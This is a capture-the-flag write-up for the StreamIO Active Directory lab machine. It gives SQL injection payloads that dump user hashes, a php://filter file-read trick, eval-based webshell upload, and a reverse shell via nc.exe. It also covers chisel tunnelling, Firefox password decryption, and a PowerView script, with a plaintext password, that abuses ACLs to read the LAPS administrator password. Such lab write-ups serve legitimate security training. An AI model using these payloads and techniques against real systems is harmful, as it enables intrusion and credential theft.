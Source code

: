 # StreamIO (AD)

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

### HTTPS Cert

On port 443, we can head to the website to find some kind of streaming platform.

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

Checking the cert, we can find another domain name:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

We can add this domain to our `/etc/hosts` files. Another notable thing we found was the login function on the main domain.&#x20;

### SQL Injection

The new domain leads us to a different website.

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

The page was written in PHP (visiting index.php brings us to home page), thus we can fuzz possible endpoints with the `.php` extension using `gobuster -x` flag.

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

Within `search.php`, we can find a query function.

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

This was vulnerable to SQL Injection, and the payload `a' union select 1,2,3,4,5,6;-- -` works. From here, we can enumerate out the users and tables present in the website.

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Using the STREAMIO database, we can dump out the tables present:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Then, we can take a look at the users table. This can be done using `a' union select 1, concat(username, ':', password), 3,4,5,6 from users; -- -`.&#x20;

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

After getting all the credentials, we can crack the hashes and then brute force the `login.php` page we found earlier on `streamio.htb`. The user `yoshihide` and his password works!

### Debug Fuzz

Within the admin dashboard, we can see a few functionalities that cause a unique parameter of `?staff=` to be passed.&#x20;

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

I found this rather interesting, and wanted to fuzz this more. I was able to find another `debug` endpoint using `wfuzz`.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

I also used `gobuster` to see what other files were present on this directory.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

`master.php` was the most unique.

### Eval RCE

Within the debug page, there isn't much visual difference apart from one line:

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Because this page was in PHP, I tested the `debug` parameter with a common `php://filter` LFI exploit, and this worked!

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We can then take a look at that `master.php` file we found earlier. The last bit was the most interesting.

<pre class="language-php"><code class="lang-php">&#x3C;?php
if(isset($_POST['include']))
{
    if($_POST['include'] !== "index.php" ) 
        eval(file_get_contents($_POST['include']));
else
<strong>    echo(" ---- ERROR ---- ");
</strong>}
?> 
</code></pre>

The `eval()` function was being used, and this was definitely vulnerable to some kind of RCE. So to construct the attack, we can attempt to upload a `cmd.php` webshell via encoding with base64 and then send it via a POST request with an `include` parameter.&#x20;

We can send this request here:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

And we finally have RCE on the machine. Then, we can gain a reverse shell via `nc.exe`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We don't have much control over the machine with this user, so we need to find another.

### MSSQL

When checking `netstat`, we can find a service listening on port 1433 that was not detectable earlier from our Kali machine.

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

Also, we can head to the `inetpub` folder to find credentials, of which we do within the `index.php` file:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

We can then port forward via `chisel`.&#x20;

```bash
# on Kali
./chisel server -p 8000 --reverse

# on Victim
.\chisel.exe client 10.10.16.12:8000 R:1433:127.0.0.1:1433
```

Using `mssqlclient.py`, we can access the database with the credentials we found.

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

I took a look at the streamio\_backup database and found credentials for a `nikk37` user.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

The hash can be cracked via crackstation.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

### Firefox Passwords + Bloodhound

When I ran WinPEAS on this machine, it picked up on a Firefox credential file. We can use `firepwd.py` to decrypt the passwords.

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/lclevy/firepwd/blob/master/firepwd.py" %}

Upon decrypting the `logins.json` file, we can find some more passwords.

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Since we had credentials, I also ran a `bloodhound-python` to enumerate the objects within the host.

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Found that the `jdgodd` user had some permissions over the Core Staff group.

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

And members of this Core Staff were able to ReadLAPSPassword for the DC.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### ReadLAPSPassword

To exploit this, we would first need to add the `jdgodd` user into the Core Staff group, and then read the administrator password.

The adding can be done via remote Powershell and Powerview using the credentials we found from Firefox earlier for `jdgodd`.&#x20;

```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\JDgodd"
Add-DomainGroupMember -Identity "Core Staff" -Members 'streamio\JDgodd' -Credential $Cred
```

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can use `crackmapexec` modules to read the LAPS password.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as the administrator.

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
